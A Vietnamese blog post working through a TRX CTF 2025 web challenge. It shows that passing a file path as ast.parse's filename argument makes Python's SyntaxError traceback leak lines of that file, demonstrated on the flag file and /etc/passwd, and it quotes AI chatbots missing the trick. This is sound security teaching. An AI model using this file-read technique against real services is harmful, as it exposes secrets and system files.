 title: Đọc file tùy ý với ast.parse
date: 2025-02-26
tags: ast, Python, security,
category: pymi.vn
slug: ast_parse
authors: Pymier0
description: ast.parse chỉ parse code thành AST, liệu có đọc được file?

Bài trước [biến nhỏ hơn thành lớn hơn với ast]({filename}/ast_intro.md) giới thiệu sử dụng AST để biến code thành tree, giúp xử lý code theo kiến trúc (thay vì text).

Bài viết này có liên quan tới module `ast`, nhưng trong một hoàn cảnh khác... liên quan tới bảo mật.

### Đề bài - web TRX CTF 2025
Giải [TRX CTF 2025](https://ctftime.org/event/2654) có đề bài cho 1 trang web như sau:

```py
import ast
import traceback
from flask import Flask, render_template, request

app = Flask(__name__)

@app.get("/")
def home():
    return render_template("index.html")

@app.post("/check")
def check():
    try:
        ast.parse(**request.json)
        return {"status": True, "error": None}
    except Exception:
        return {"status": False, "error": traceback.format_exc()}

if __name__ == '__main__':
    app.run(debug=True)
```

một website flask đơn giản, nhận đầu vào tùy ý của người dùng và chạy `ast.parse`.
Một file `secret.py` nằm cùng thư mục, chứa flag

```py

def main():
    print("Here's the flag: ")
    print(FLAG)

FLAG = "TRX{fake_flag_for_testing}"

main()
```

Mục tiêu là đọc giá trị của `FLAG`.

### Đọc tài liệu ast.parse

```
Python 3.10.12 (main, Feb  4 2025, 14:57:36) [GCC 11.4.0] on linux
>>> import ast
>>> print(ast.parse.__doc__)

Parse the source into an AST node.
Equivalent to compile(source, filename, mode, PyCF_ONLY_AST).
Pass type_comments=True to get back type comments where the syntax allows.
```


Tài liệu không ghi gì hơn là đá sang đọc doc của builtin function compile:

```py
>>> print(compile.__doc__)
Compile source into a code object that can be executed by exec() or eval().

The source code may represent a Python module, statement or expression.
The filename will be used for run-time error messages.
The mode must be 'exec' to compile a module, 'single' to compile a
single (interactive) statement, or 'eval' to compile an expression.
The flags argument, if present, controls which future statements influence
the compilation of the code.
The dont_inherit argument, if true, stops the compilation inheriting
the effects of any future statements in effect in the code calling
compile; if absent or false these statements do influence the compilation,
in addition to any features explicitly specified.
```

**The source code may represent a Python module, statement or expression.  The filename will be used for run-time error messages.**

filename được dùng cho run-time error messages, nhưng không rõ ràng là dùng thế nào.
Trên doc trang chủ:

```
ast.parse(source, filename='<unknown>', mode='exec', *, type_comments=False, feature_version=None)¶
```
filename mặc định có giá trị là `<unknown>`.
Thử vài ví dụ:

```py
>>> ast.parse(open(ast.__file__).read(), '<unknown>')
<ast.Module object at 0x752c51f9d7e0>
>>> ast.parse('for i in range(10):\n    print(i)', '<unknown>')
<ast.Module object at 0x752c520ebcd0>
>>> ast.parse('for i in range(10):\n    print(i', '<unknown>')
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/usr/lib/python3.10/ast.py", line 50, in parse
    return compile(source, filename, mode, flags,
  File "<unknown>", line 2
    print(i
         ^
SyntaxError: '(' was never closed
```
có thể thấy khi có SyntaxError, màn hình sẽ hiện ra dòng code bị lỗi syntax, và file `<unknown>` không đóng vai trò gì cả.

Nhưng khi gán filename="secret.py", dòng số 2 của file này lại hiện ra:

```py
>>> ast.parse("for i in range(10):\n    print(i", "secret.py")
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/usr/lib/python3.10/ast.py", line 50, in parse
    return compile(source, filename, mode, flags,
  File "secret.py", line 2
    def main():
             ^
SyntaxError: '(' was never closed
```
đề bài khá "lươn" vì viết code từ dòng thứ 2, nếu người dùng thử với `source='def'` thì sẽ không hiện ra gì.
Vậy chỉ cần viết code xuống đến dòng thứ 6 rồi viết syntax error sẽ hiện ra FLAG:

```py
>>> ast.parse("\n\n\n\n\ndef", "secret.py")
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/usr/lib/python3.10/ast.py", line 50, in parse
    return compile(source, filename, mode, flags,
  File "secret.py", line 6
    FLAG = "TRX{fake_flag_for_testing}"
       ^
SyntaxError: invalid syntax
```

Thậm chí có thể đọc file tùy ý, không cần phải code python:
```py
>>> ast.parse("def", "/etc/passwd")
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/usr/lib/python3.10/ast.py", line 50, in parse
    return compile(source, filename, mode, flags,
  File "/etc/passwd", line 1
    root:x:0:0:root:/root:/bin/bash
       ^
SyntaxError: invalid syntax
```

Đọc code CPython, lần theo function [compile](https://github.com/python/cpython/blob/43a2a372ba071c4ebb1071240da2b852c29d77fb/Python/bltinmodule.c#L759-L855) sẽ tháy

```
PyObject *
_PyErr_ProgramDecodedTextObject(PyObject *filename, int lineno, const char* encoding)
{
...
    FILE *fp = _Py_fopen_obj(filename, "r" PY_STDIOTEXTMODE);
```
trong [errors.c](https://github.com/python/cpython/blob/43a2a372ba071c4ebb1071240da2b852c29d77fb/Python/errors.c#L1946)


### Góc AI
Vác luôn đề hỏi các AI xịn nhất ngày nay xem:

[Claude.ai](https://claude.ai/chat/553d2e6f-62f4-4048-8480-f2e1367426f6)

> Given the code shown, I don't see a direct path to reading the FLAG from secret.py through the ast.parse() function alone. The function's parameters don't provide functionality to import or read other files in a way that would return their contents through the error messages.

sau một hồi đoán mò lung tung đủ thứ. ChatGPT 4o-mini dù phát hiện đoạn code có thể bị DOS attack, nhưng cũng nhầm lẫn tương tự và không thể tìm được cách tấn công.

Chờ bạn đọc chăm chỉ test với DeepSeek R1.

### Kết luận
`ast.parse` có thể đọc file tùy ý.

Hết.

HVN at <http://pymi.vn> and <https://www.familug.org>.

[Ủng hộ tác giả 🍺](https://www.familug.org/p/ung-ho.html)
